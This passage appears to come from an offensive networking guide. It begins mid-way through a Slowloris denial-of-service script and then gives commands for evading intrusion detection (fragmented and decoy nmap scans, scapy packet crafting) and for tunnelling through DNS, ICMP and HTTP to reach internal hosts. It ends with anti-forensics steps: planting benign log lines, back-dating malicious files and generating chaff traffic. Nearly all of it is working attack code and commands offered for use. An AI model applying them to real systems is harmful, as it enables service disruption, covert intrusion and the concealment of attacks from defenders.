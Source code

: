 ```python
    while True:
        for sock in sockets:
            try:
                sock.send(b"X-a: b\r\n")
            except:
                sockets.remove(sock)
        time.sleep(15)

# Usage
slowloris_attack('target_ip', 80)
```

## 6. Network Monitoring and Detection Evasion

### 6.1 IDS/IPS Evasion Techniques

#### Traffic Obfuscation
```bash
# Nmap evasion techniques
nmap -sS -f target_ip  # Fragment packets
nmap -D RND:10 target_ip  # Decoy scans
nmap --scan-delay 5s target_ip  # Slow scan
nmap --max-rate 1 target_ip  # Rate limiting

# Custom packet crafting with scapy
scapy
>>> packet = IP(dst="target_ip")/TCP(dport=80,flags="S")
>>> send(packet)
```

#### Protocol Tunneling
```bash
# DNS tunneling
iodine -f target_dns_server tunnel.domain.com
dnscat2-client tunnel.domain.com

# ICMP tunneling  
ptunnel -p target_ip -lp 8080 -da target_internal_ip -dp 22

# HTTP tunneling
httptunnel -s target_ip -p 8080
```

### 6.2 Network Forensics Counter-Measures

#### Anti-Forensics Techniques
```bash
# Log evasion
logger -p local0.info "Legitimate activity logged"
# Overwrite with benign logs

# Timestamp manipulation
touch -t 202301010000 malicious_file
faketime '2023-01-01 00:00:00' ./attack_script

# Traffic mixing
chaff -i eth0  # Generate chaff traffic
```
